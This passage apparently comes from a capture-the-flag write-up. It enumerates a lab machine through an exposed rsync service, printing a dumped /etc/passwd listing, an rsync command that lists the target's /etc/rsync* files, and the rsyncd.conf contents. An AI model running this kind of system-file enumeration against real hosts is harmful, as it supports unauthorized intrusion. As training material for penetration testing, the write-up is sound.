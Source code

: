    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
    systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
    sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
    roy:x:1000:1000:roy,,,:/home/roy:/bin/bash
    systemd-coredump:x:999:999:systemd Core Dumper:/:/sbin/nologin
    postgres:x:106:113:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash



roy is the most interesting account.

I'll also look at the rsync related files:



    root@kali# rsync --list-only -a rsync://[dead:beef::0250:56ff:fe88:e5fa]:8730/etc/rsync*                                 
    -rw-r--r--          2,929 2019/08/31 15:56:06 rsyncd.conf
    -rw-r--r--            558 2019/07/27 06:39:04 rsyncd.motd
    -r--------             13 2019/07/27 06:43:25 rsyncd.secrets



I don't have access to the `rsyncd.secrets` file, but I can pull the
other two. The motd file is just the message I've seen over and over.
The `.conf` has lots of good stuff:



    reverse lookup = no
    # GLOBAL OPTIONS

    # Change port so that we won't be in shodan
    port = 8730 
    use chroot = yes
    lock file = /var/lock/rsyncd
    motd file = /etc/rsyncd.motd
    strict modes = yes
    ignore errors = no
    ignore nonreadable = yes
    transfer logging = no
    log format = %t: host %h (%a) %o %f (%l bytes). Total %b bytes.
    dont compress = *.gz *.tgz *.zip *.z *.rpm *.deb *.iso *.bz2 *.tbz
    read only = yes
    uid = backup
    gid = backup
